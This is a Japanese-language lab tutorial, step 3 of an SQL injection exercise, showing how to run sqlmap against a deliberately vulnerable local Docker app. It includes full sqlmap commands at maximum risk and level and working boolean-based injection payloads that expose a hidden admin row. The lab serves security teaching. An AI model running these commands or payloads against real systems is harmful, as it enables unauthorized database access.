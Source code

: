 # step3 - sqlmapを触る
## このステップのゴール
- sqlmapを実行して、結果を得ることができること

## 注意
- DBに直接アクセスすると簡単に答えが分かりますが、一旦それはナシでお願いします :bow:

## はじめに
対象のアプリケーションに脆弱性があることを示すために、よく使われる診断方法は2つあります。脆弱性診断とペネトレーションテストです。前者は広く浅く、後者は深く狭く診断するイメージを持っていただくと良いと思います。

このペネトレーションテストで利用される1つのツールが、オープンソースの[sqlmap](https://github.com/sqlmapproject/sqlmap)です。sqlmapはSQL Injectionの脆弱性の検出等が可能なツールです。詳しくは公式のREADMEをご覧ください([ref](https://github.com/sqlmapproject/sqlmap#readme))。日本語訳もあります([ref](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-ja-JP.md))

このツールは許可を受けた対象リソースに対して使用してください。なぜなら、内部的に検査対象のリソースに負荷をかけるリクエストを送るためです。深く考えずに実行すると対象リソースへの攻撃とみなされ、最悪訴えられることもあるため、注意してください。

## 手順

### 1. sqlmapのクローン

sqlmapのコードをクローンしてください。

```bash
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python3 sqlmap.py --help
```

### 2. sqlmapの実行

サンプルアプリケーションに対してsqlmapを実行してみましょう。まずはサンプルアプリケーションを実行しましょう。`sqli-chal/step3/`にいることを確認してください。

```bash
docker compose up
```

次に、sqlmapを実行してみます。sqlmapをクローンしたディレクトリに移動して、オプションを確認しましょう。

オプションは [lib/parse/cmdline.py#L114-859](https://github.com/sqlmapproject/sqlmap/blob/master/lib/parse/cmdline.py#L114-L859)で確認できます。今回は、この中から、今回の講義で利用する主要なオプションだけ抜粋します。他にもオプションはあるので各自読んでください。

|コマンドオプション|設定例|説明|
|:-:|:-:|:-:|
|`-u URL, --url=URL`|`-u "http://www.site.com/vuln.php?id=1"`|検査対象のURL|
|`-p テストパラメータ`|`-p id`|テストしたいパラメータ|
|`--dbms=データベース管理システム名(DBMS)`|`--dbms=sqlite`|検査対象のDBMS|
|`--level=レベル`|`--level=5`|実行するテストのレベル(1〜5の範囲で指定可能で、デフォルトは1)|
|`--risk=リスク`|`--risk=3`|実行するテストの危険性(1〜3の範囲で指定可能で、デフォルトは1)|
|`--flush-session`|`--flush-session`|過去にスキャンした結果を捨てて、新たにスキャンを実施する場合に付与するオプション|

これらのオプションを適切に設定して、実行してみましょう。例えば、以下のような実行オプションになるはずです。実行時に何か聞かれたら、一旦は全て `y` を回答すれば大丈夫です。

```bash
$ python3 sqlmap.py \
	-u "http://localhost:31555?name=test" \
    -p name \
    --risk=3 \
    --level=5 \
    --flush-session
```

### 3. sqlmapの実行

sqlmapを実行すると、次のような結果が得られるはずです。

```plaintext
Parameter: name (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: name=hoge' OR NOT 1728=1728-- mXRk
```

この結果のうち、boolean-basedの方に注目してみましょう。表にすると以下のような形になります。

|属性|値|
|:-:|:-:|
|Type|boolean-based blind|
|Title|OR boolean-based blind - WHERE or HAVING clause (NOT)|
|Payload|`name=hoge' OR NOT 1728=1728-- mXRk`|

このペイロードを含めた[http://localhost:31555/?name=hoge' OR NOT 1728=1728-- mXRk](http://localhost:31555/?name=hoge%27%20OR%20NOT%201728=1728--%20mXRk)にアクセスしてみましょう。すると、SQLインジェクションが成功していないことが分かります。この理由は検出ロジックについて触れる次の章で明らかになります。

※このURLの`?`以降に書く記法は、[MDNのドキュメント](https://developer.mozilla.org/ja/docs/Web/HTTP/Basics_of_HTTP/Identifying_resources_on_the_Web#%E3%82%AF%E3%82%A8%E3%83%AA)をご覧ください。

---

正しく検出するには、[step3/app/app.py](./app/app.py)の13行目を`step2.db`に置き換えてから、以下コマンドでDockerコンテナを再起動する必要があります。

```bash
docker compose restart
```

その後、先ほどのsqlmapのコマンドを実行すると、次のような正しいboolean-based blindの結果が得られるはずです。

```plaintext
Parameter: name (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: name=-9901' OR 6151=6151-- FfuT
```

この結果から、`OR boolean-based blind`という攻撃の `WHERE` もしくは `HAVING` 句を利用した攻撃であることが分かります。更に、このペイロードを含めた[http://localhost:31555/?name=-9901' OR 6151=6151-- FfuT](http://localhost:31555/?name=-9901%27%20OR%206151=6151--%20FfuT)にアクセスしてみましょう。すると、SQLインジェクションが成功して、表示されている表の最後の行に`super_admin_314159`が表示されていることが分かります。

このペイロードは、step2で確認したペイロードとよく似てますね？OR条件で必ず成立するものを入れて、最後の条件を無視するようにしていたあのペイロードです。

では、次の[step4 - sqlmapの実装を読む](../step4/)では、このクエリをどのように検出しているか確認していきましょう。

